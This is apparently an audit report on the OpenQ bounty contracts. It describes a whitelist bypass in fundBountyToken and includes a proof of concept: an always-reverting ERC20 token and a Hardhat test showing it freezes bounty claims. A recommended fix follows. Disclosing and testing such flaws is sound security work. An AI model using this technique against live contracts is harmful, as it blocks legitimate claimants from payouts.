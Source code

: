 Tricko

medium

# Whitelist bypass can lead to arbitrary freeze of bounty claims.

## Summary
Whitelist can be bypassed when token address limit has not been reached, leading to possible exploits as malicious ERC20 tokens can be used to fund bounties.

## Vulnerability Detail
DepositManager's `fundBountyToken` contains the following logic regarding ERC20 tokens whitelists.
```javascript
if (!isWhitelisted(_tokenAddress)) {
    require(
        !tokenAddressLimitReached(_bountyAddress),
        Errors.TOO_MANY_TOKEN_ADDRESSES
    );
}
```
For reason not explained in the protocol docs or in the code, it is possible to bypass the whitelist if token address limit has not been reached. An attacker can leverage this by funding bounties with malicious ERC20 tokens. For example, funding the bounty with a malicious ERC20 token that always reverts on transactions will make this bounty impossible to be claimed, as during any call to `claimBounty` or `permissionedClaimTieredBounty` (for tiered bounties) the contract will try to transfer the malicious token, causing a revert.

## Impact
DepositManager's `fundBountyToken` is used to fund all types of bounties, but only `Atomic`, `TieredPercentage` and `TieredFixed` are affected (`Ongoing` claim logic is slightly different). Once an attack has occurred, the contract behavior cannot be fixed by the bounty owner and a new bounty must be deployed. There is no actual loss of funds, because depositors can always refund their tokens. However, this may negatively impact the protocol's usability since an attacker can easily freeze bounties at little cost.

## Proof of Concept
Consider the following series of steps:
1. Eve funds target bounty with her malicious token.
2. When oracle tries to claim, contract will revert due to the malicious token.

To run the POC, put the following solidity code in contracts/Mocks/MockMaliciousToken.sol and run the following hardhat test below.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

// Third party
import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

contract MockMaliciousToken is ERC20 {
    address public admin;

    constructor() ERC20('MockMalicious', 'mM') {
        _mint(msg.sender, 10000 * 10**18);
        admin = msg.sender;
    }

    function transfer(address to, uint256 amount) public virtual override returns (bool) {
        revert("You shall not pass");
    }
}
```
```javascript
const { ethers } = require("hardhat");
const { expect } = require('chai');
const { 
	Constants, 
	atomicBountyInitOperation_fundingGoal, 
} = require('./constants');

describe('POC', () => {
	it('should revert during claim', async () => {
		//UTILS
		abiCoder = new ethers.utils.AbiCoder;
		[owner, claimant, oracle] = await ethers.getSigners();

		// DEPLOYMENTS
		const OpenQImplementation = await ethers.getContractFactory('OpenQV1');
		const OpenQProxy = await ethers.getContractFactory('OpenQProxy');
		let openQImplementation = await OpenQImplementation.deploy();
		await openQImplementation.deployed();
		let openQProxy = await OpenQProxy.deploy(openQImplementation.address, []);
		await openQProxy.deployed();
		openQProxy = OpenQImplementation.attach(openQProxy.address);
		await openQProxy.initialize();
		await openQProxy.transferOracle(oracle.address);

		const DepositManager = await ethers.getContractFactory('DepositManagerV1');
		let depositManagerImplementation = await DepositManager.deploy();
		await depositManagerImplementation.deployed();
		const DepositManagerProxy = await ethers.getContractFactory('OpenQProxy');
		let depositManagerProxy = await DepositManagerProxy.deploy(depositManagerImplementation.address, []);
		await depositManagerProxy.deployed();
		let depositManager = DepositManager.attach(depositManagerProxy.address);
		await depositManager.initialize();

		const ClaimManager = await ethers.getContractFactory('ClaimManagerV1');
		let claimManagerImplementation = await ClaimManager.deploy();
		await claimManagerImplementation.deployed();
		const ClaimManagerProxy = await ethers.getContractFactory('OpenQProxy');
		let claimManagerProxy = await ClaimManagerProxy.deploy(claimManagerImplementation.address, []);
		await claimManagerProxy.deployed();
		let claimManager = ClaimManager.attach(claimManagerProxy.address);

		const AtomicBountyV1 = await ethers.getContractFactory('AtomicBountyV1');
		const OngoingBountyV1 = await ethers.getContractFactory('OngoingBountyV1');
		const TieredPercentageBountyV1 = await ethers.getContractFactory('TieredPercentageBountyV1');
		const TieredFixedBountyV1 = await ethers.getContractFactory('TieredFixedBountyV1');

		let atomicBountyV1 = await AtomicBountyV1.deploy();
		await atomicBountyV1.deployed();
		
		let ongoingBountyV1 = await OngoingBountyV1.deploy();
		await ongoingBountyV1.deployed();
		
		let tieredPercentageBountyV1 = await TieredPercentageBountyV1.deploy();
		await tieredPercentageBountyV1.deployed();
		
		let tieredFixedBountyV1 = await TieredFixedBountyV1.deploy();
		await tieredFixedBountyV1.deployed();

		const BountyFactory = await ethers.getContractFactory('BountyFactory');
		const BountyBeacon = await ethers.getContractFactory('BountyBeacon');

		let atomicBountyBeacon = await BountyBeacon.deploy(atomicBountyV1.address);
		await atomicBountyBeacon.deployed();
		let ongoingBountyBeacon = await BountyBeacon.deploy(ongoingBountyV1.address);
		await ongoingBountyBeacon.deployed();
		let tieredPercentageBountyBeacon = await BountyBeacon.deploy(tieredPercentageBountyV1.address);
		await tieredPercentageBountyBeacon.deployed();
		let tieredFixedBountyBeacon = await BountyBeacon.deploy(tieredFixedBountyV1.address);
		await tieredFixedBountyBeacon.deployed();
		let bountyFactory = await BountyFactory.deploy(
			openQProxy.address,
			atomicBountyBeacon.address,
			ongoingBountyBeacon.address,
			tieredPercentageBountyBeacon.address,
			tieredFixedBountyBeacon.address
			);
		await bountyFactory.deployed();

		const MockKyc = await ethers.getContractFactory('MockKyc');
		let mockKyc = await MockKyc.deploy();
		await mockKyc.deployed();

		const MockDai = await ethers.getContractFactory('MockDai');
		let mockDai = await MockDai.deploy();
		await mockDai.deployed();

		const MockMaliciousToken = await ethers.getContractFactory('MockMaliciousToken');
		let mockMaliciousToken = await MockMaliciousToken.deploy();
		await mockMaliciousToken.deployed();

		const OpenQTokenWhitelist = await ethers.getContractFactory('OpenQTokenWhitelist');
		let openQTokenWhitelist = await OpenQTokenWhitelist.deploy(5);
		await openQTokenWhitelist.deployed();

		// Setup
		await openQProxy.setBountyFactory(bountyFactory.address);
		await openQProxy.setDepositManager(depositManager.address);
		await openQProxy.setClaimManager(claimManager.address);
		await depositManager.setTokenWhitelist(openQTokenWhitelist.address);
		await claimManager.initialize(oracle.address);
		await claimManager.setOpenQ(openQProxy.address);
		await claimManager.setKyc(mockKyc.address);
		await openQTokenWhitelist.addToken(mockDai.address);

		/////////////////////
		// POC STARTS HERE //
		/////////////////////

		// Bounty is minted 
		atomicBountyInitOperation = atomicBountyInitOperation_fundingGoal(mockDai.address)
		abiEncodedSingleCloserData = abiCoder.encode(['address', 'string', 'address', 'string'], [owner.address, "FlacoJones", owner.address, "https://github.com/OpenQDev/OpenQ-Frontend/pull/398"]);
		await openQProxy.mintBounty(Constants.bountyId, Constants.organization, atomicBountyInitOperation);
		const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);

		// Bounty is funded with mockDai.
		await mockDai.approve(bountyAddress, 10000000);
		await depositManager.fundBountyToken(bountyAddress, mockDai.address, 100, 1, Constants.funderUuid);

		// 1. Eve funds bounty with her malicious token. 
		// She can bypass whitelist because token address limit has not been reached yet.
		await mockMaliciousToken.approve(bountyAddress, 10000000);
		await depositManager.fundBountyToken(bountyAddress, mockMaliciousToken.address, 100, 1, Constants.funderUuid);

		// 2. When oracle tries to claim, contract will revert due to the malicious token.
		await expect(
			claimManager.connect(oracle).claimBounty(bountyAddress, claimant.address, abiEncodedSingleCloserData)
		).to.be.revertedWith("You shall not pass");;
	});	
});
```
## Code Snippet
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/DepositManager/Implementations/DepositManagerV1.sol#L36-L74

## Tool used
Manual Review

## Recommendation
Consider removing the possibility of non-whitelisted tokens funding (by exploting the bypass explained earlier) or make the bounty owner the only ones who can fund their own bounties.